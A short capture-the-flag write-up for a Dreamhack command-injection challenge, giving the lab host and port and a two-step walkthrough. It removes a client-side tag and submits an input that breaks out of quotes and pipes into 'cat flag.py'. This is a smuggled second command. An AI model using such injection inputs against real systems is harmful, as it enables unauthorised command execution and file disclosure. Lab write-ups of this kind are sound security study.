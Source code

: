 # TITLE : command-injection-1


```
Connecting Point

HOST : host1.dreamhack.games
Port : 8247/tcp
```

# Walk Through
```
1. Remove the tag on page source
2. input Command : 8.8.8.8" | cat flag.py #

```
